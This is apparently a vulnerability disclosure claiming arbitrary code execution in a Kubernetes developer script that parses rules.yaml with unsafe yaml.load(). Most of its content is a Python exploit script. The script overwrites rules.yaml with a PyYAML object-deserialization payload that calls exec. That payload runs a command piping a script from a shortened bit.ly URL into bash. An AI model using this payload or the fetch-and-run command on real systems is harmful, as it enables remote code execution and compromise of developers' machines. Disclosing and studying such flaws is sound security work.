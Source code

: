 # Description
**Arbitrary Code Excecution** in Kubernetes/hack/verify-publishing-bot.py. The hack directory contains many scripts that ensure continuous development of kubernetes, enhance the robustness of the code, improve development efficiency, etc. The explanations and descriptions of these scripts are helpful for contributors. For details, refer to the following guidelines.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. command is executed when the .py file loads the malicious rules.yaml file.  
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/kubernetes/kubernetes.git')
os.chdir('kubernetes/')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('curl -s -L http://bit.ly/10hA8iC | bash')"
'''
os.chdir('staging/publishing/')
os.system('rm rules.y*')
open('rules.yaml','w+').write(exploit)
os.chdir('../../')
os.system('python hack/verify-publishing-bot.py')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787368162122530816/kube.gif
